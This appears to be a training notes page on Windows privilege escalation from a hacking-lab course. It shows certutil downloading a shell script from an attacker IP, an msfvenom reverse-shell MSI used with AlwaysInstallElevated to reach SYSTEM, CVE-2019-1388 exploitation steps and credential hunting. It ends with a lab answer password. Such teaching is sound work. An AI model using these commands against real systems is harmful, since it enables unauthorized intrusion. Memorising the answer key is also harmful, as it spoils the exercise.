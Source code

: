 # Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

{% embed url="https://lolbas-project.github.io" %}
binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems
{% endembed %}

### **Certutil**

**Transferring File with Certutil**

```powershell-session
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

**Encoding File with Certutil**

```cmd-session
C:\htb> certutil -encode file1 encodedfile
```

**Decoding File with Certutil**

```cmd-session
C:\htb> certutil -decode encodedfile file2
```

## Always Install Elevated

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

* `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
* `User Configuration\Administrative Templates\Windows Components\Windows Installer`

![Group Policy Editor](https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png)

**Enumerating Always Install Elevated Settings**

```powershell-session
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```powershell-session
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

`AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

**Generating MSI Package**

```shell-session
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

**Executing MSI Package**

```cmd-session
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**Catching Shell**

```shell-session
nc -lnvp 9443

. . .
C:\Windows\system32>whoami

whoami
nt authority\system
```

## CVE-2019-1388

privilege escalation vulnerability in the Windows Certificate Dialog

Let's run through the vulnerability in practice.

First right click on the `hhupd.exe` executable and select `Run as administrator`

![UAC](https://academy.hackthebox.com/storage/modules/67/hhupd.png)

Next, click on `Show information about the publisher's certificate` to open the certificate dialog. Here we can see that the `SpcSpAgencyInfo` field is populated in the Details tab.

![SpcSpAgencyInfo](https://academy.hackthebox.com/storage/modules/67/hhupd\_details.png)

Next, we go back to the General tab and see that the `Issued by` field is populated with a hyperlink. Click on it and then click `OK`, and the certificate dialog will close, and a browser window will launch.

![Issued by](https://academy.hackthebox.com/storage/modules/67/hhupd\_ok.png)

If we open `Task Manager`, we will see that the browser instance was launched as SYSTEM.

![The browser is running as SYSTEM user](https://academy.hackthebox.com/storage/modules/67/chrome\_system.png)

Next, we can right-click anywhere on the web page and choose `View page source`. Once the page source opens in another tab, right-click again and select `Save as`, and a `Save As` dialog box will open.

![Save the page source](https://academy.hackthebox.com/storage/modules/67/hhupd\_saveas.png)

At this point, we can launch any program we would like as SYSTEM. Type `c:\windows\system32\cmd.exe` in the file path and hit enter. If all goes to plan, we will have a cmd.exe instance running as SYSTEM.

![Launch CMD from saveas.](https://academy.hackthebox.com/storage/modules/67/hhupd\_cmd.png)

Scheduled Tasks

**Enumerating Scheduled Tasks with cmd**

```cmd-session
C:\htb>  schtasks /query /fo LIST /v
```

**Enumerating Scheduled Tasks with PowerShell**

```powershell-session
PS C:\htb> Get-ScheduledTask | select TaskName,State
```

> We cannot list out scheduled tasks created by other users

## User/Computer Description Field

**Checking Local User Description Field**

in Active Directory, it is possible for a sysadmin to store account details (such as a password) in a computer or user's account description field

```powershell-session
PS C:\htb> Get-LocalUser
 
Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password
sql_dev         True
```

**Enumerating Computer Description Field with Get-WmiObject Cmdlet**

```powershell-session
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description
 
Description
-----------
The most vulnerable box ever!
```

## Mount VHDX/VMDK

**Mount VMDK on Linux**

```shell-session
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

**Mount VHD/VHDX on Linux**

```shell-session
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, we can right-click on the file and choose `Mount`, or use the `Disk Management` utility to mount a `.vhd` or `.vhdx` file.

## Assessment

Using the techniques in this section, find the cleartext password for an account on the target host.

<figure><img src="../../../.gitbook/assets/image (118) (1).png" alt=""><figcaption></figcaption></figure>

**!QAZXSW@3edc**



